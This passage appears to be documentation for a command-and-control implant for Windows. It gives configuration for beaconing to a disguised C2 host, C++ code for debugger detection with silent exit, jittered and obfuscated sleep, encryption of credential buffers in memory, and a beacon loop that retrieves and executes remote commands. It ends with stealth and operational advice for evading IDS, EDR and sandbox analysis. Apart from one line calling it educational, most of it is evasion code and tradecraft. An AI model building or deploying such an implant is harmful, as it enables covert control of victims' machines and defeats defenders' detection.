constexpr char XOR_SERVERS[] = "cdn.legitimate-domain.com";
constexpr int XOR_PORT = 443;
constexpr char USER_AGENT[] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36";
constexpr char HEADER[] = "Accept: application/json, text/plain, */*\r\nAccept-Language: en-US,en;q=0.9\r\nAccept-Encoding: gzip, deflate, br\r\nConnection: keep-alive\r\nCache-Control: no-cache\r\nX-Requested-With: XMLHttpRequest";
constexpr char RESULTS_PATH[] = "/api/v2/telemetry/collect";
constexpr int BEACON_INTERVAL = 300;
constexpr bool ANTI_VM_ENABLED = true;
constexpr bool USE_HTTPS = true;
```

---

## Advanced Anti-Detection

### Anti-Debug (Debugger detection)

The agent implements two complementary methods to detect an active debugger:

#### Method 1: IsDebuggerPresent()

```cpp
bool anti_debug_basic() {
    if (IsDebuggerPresent()) {
        return true;  // Debugger detected
    }
    return false;
}
```

**How it works**:
- Standard Windows API provided by `kernel32.dll`
- Checks an internal kernel flag
- Very fast return (no I/O)

**Limitations**:
- Can be bypassed via API hooking
- Advanced debuggers may spoof this API

#### Method 2: PEB check

```cpp
bool being_debugged_peb() {
#if defined(_M_X64) || defined(__x86_64__)
    PPEB peb = (PPEB)__readgsqword(0x60);  // x86_64
#elif defined(_M_IX86) || defined(__i386__)
    PPEB peb = (PPEB)__readfsdword(0x30);  // x86
#endif
    return peb->BeingDebugged;
}
```

**How it works**:
- Direct access to the **PEB** (Process Environment Block)
- The PEB is an internal Windows structure containing process information
- x86_64: GS:0x60 points to the PEB
- x86: FS:0x30 points to the PEB
- `BeingDebugged` field (offset 0x2 in the PEB) indicates whether a debugger is active

**Architecture**:



**Advantages**:
- Direct memory read (potential bypass of certain hooks)
- More reliable than `IsDebuggerPresent()`
- Architecture-aware (32/64 bit)

**Detection cases**:
- WinDbg, x64dbg, OllyDbg, etc.
- User-mode debugging
- Certain reverse engineering tools

#### Combining both methods

```cpp
void is_debugged() {
    int detection_method = 0;
    if (anti_debug_basic())     detection_method++;
    if (being_debugged_peb())   detection_method++;

    // If at least one method detects a debugger
    if (detection_method > 0) {
        // Terminate silently
        ExitProcess(0);
    }
}
```

**Detection threshold**:
- Agent stops if >= 1 method detects a debugger
- Double protection: hard to bypass both

**Educational use cases**:
- Study of Windows structures (PEB)
- Learning anti-forensics mechanisms
- Understanding malware protections
- Analyzing behavior under debugging

---

### Sleep Obfuscation (Beacon obfuscation)

The agent replaces classic `Sleep()` calls with a more sophisticated implementation using Windows thread pools.

#### Motivation

```
Classic problem:
    Agent beacons every 5 minutes ← Very easy to detect
    - IDS/IPS can create a signature
    - Predictable network traffic
    - Trivial breakpoint on Sleep()

Solution with Sleep Obfuscation:
    Agent beacons with jitter (4:30 - 5:30) ← Variable traffic
    - Less certainty for signatures
    - Less predictable traffic
    - Breakpoint on Sleep() does not work
```

#### Technical Implementation

**SleepObfuscator class**:
```cpp
class SleepObfuscator {
private:
    PTP_POOL threadPool;
    PTP_CLEANUP_GROUP cleanupGroup;
    TP_CALLBACK_ENVIRON callbackEnviron;
    std::vector<BYTE> encryptionKey;
    BOOL initialized;

public:
    BOOL Initialize();
    BOOL Sleep(DWORD milliseconds);
    BOOL SleepWithJitter(DWORD baseMilliseconds, FLOAT jitterPercent);
    BOOL SleepWithEncryption(DWORD milliseconds,
                             const std::vector<std::pair<PVOID, SIZE_T>>& regions);
};
```

#### Available methods

**1. Simple Obfuscated Sleep**

```cpp
obfuscated_sleep(5000);  // Sleep for 5 seconds
```



**Advantage**:
- `Sleep()` uses different internal mechanisms
- Breakpoints on `Sleep()` do not trigger
- Less dynamic analysis possible

---

**2. Sleep with Jitter (Variable interval)**

```cpp
// Base 5 minutes, ±15% variation
obfuscated_sleep_with_jitter(300000, 0.15f);
// Result: 255000 to 345000 ms (4:15 - 5:45)
```

**Jitter calculation**:
```cpp
FLOAT jitter = random(-jitterPercent, +jitterPercent);
DWORD final_ms = baseMilliseconds * (1.0f + jitter);
```

**Distribution** (example with 300000ms, 20% jitter):
```
240000ms (4:00) ████████░░░░░░░░░░░░
260000ms (4:20) ████████████░░░░░░░░
280000ms (4:40) ████████████████░░░░
300000ms (5:00) ████████████████████ ← Mode (expected value)
320000ms (5:20) ████████████████░░░░
340000ms (5:40) ████████████░░░░░░░░
360000ms (6:00) ████████░░░░░░░░░░░░
```

**Impact**:
- Traffic signature impossible (variable timing)
- IDS/IPS must look for other patterns
- More closely resembles "human" traffic

---

**3. Sleep with Memory Encryption**

```cpp
// Encrypt certain regions during sleep
std::vector<std::pair<PVOID, SIZE_T>> regions;
regions.push_back({secret_data, 256});      // Sensitive data
regions.push_back({credential_buffer, 512}); // Credentials

obfuscator.SleepWithEncryption(300000, regions);
```

**Process**:



**256-bit XOR key**:
```cpp
void GenerateEncryptionKey() {
    encryptionKey.resize(32);  // 256 bits
    for (auto& byte : encryptionKey) {
        byte = random(0, 255);  // Random
    }
}
```

**Advantage**:
- Protection against **memory dumps** during sleep
- If RAM is dumped at 3:00, data is encrypted
- At 3:05 when the agent wakes up, automatic decryption

**Limitation**:
- Memory and CPU overhead (±10-15%)
- Acceptable performance for most use cases

---

#### Recommended configuration

```cpp
// For hostile environment (EDR, IDS/IPS)
constexpr bool ANTI_DEBUG_ENABLED = true;
constexpr bool SLEEP_OBFUSCATION_ENABLED = true;
constexpr FLOAT JITTER_PERCENT = 0.25f;     // ±25% variation
constexpr int BEACON_INTERVAL = 600000;     // 10 minute base

// For POC/testing
constexpr bool ANTI_DEBUG_ENABLED = false;
constexpr bool SLEEP_OBFUSCATION_ENABLED = true;
constexpr FLOAT JITTER_PERCENT = 0.0f;      // No jitter
constexpr int BEACON_INTERVAL = 5000;       // 5 seconds
```

#### Integration in the beacon cycle

```cpp
int main() {
    // 1. Initialization
    initialize_sleep_obfuscation();

    // 2. Anti-detection checks
    if (anti_debug_basic() || being_debugged_peb()) {
        ExitProcess(0);
    }

    // 3. Main loop
    while (true) {
        // Check-in with server
        beacon_checkin();

        // Retrieve and execute commands
        execute_pending_commands();

        // Obfuscated sleep with jitter
        obfuscated_sleep_with_jitter(BEACON_INTERVAL, JITTER_PERCENT);
    }

    return 0;
}
```

---

## Best Practices

### Stealth

1. **Beacon Interval**: Use long intervals (5-15 min) to avoid detection by traffic analysis

2. **User-Agent**: Use a User-Agent matching browsers present on the target network

3. **URI Path**: Choose paths that resemble legitimate traffic:
   - `/api/v1/analytics`
   - `/cdn/js/bundle.min.js`
   - `/static/images/pixel.gif`

4. **HTTP Headers**: Mimic headers from legitimate applications

5. **Anti-VM**: Enable to avoid sandbox analysis

### Operational

1. **Test your PEs** with simple tools before using complex ones

2. **Check the architecture**: 64-bit agent = 64-bit PE required

3. **Backup**: Keep a copy of generated agents

4. **Key rotation**: Change the XOR key between operations

---

## Troubleshooting

### Agent does not connect
- Check that the listener is active
- Check that the User-Agent matches exactly
- Check that the XOR key is identical
- Test network connectivity

### PE-Exec fails
- Check architecture (32/64 bit)
- Test with a simple PE (hello world)
- Some system PEs depend on resources that are not available

### Anti-VM blocks execution
- Disable anti_vm for tests in a VM
- Use a physical machine for testing

### Empty or corrupted results
- Check that the XOR keys match
- Check Base64 encoding
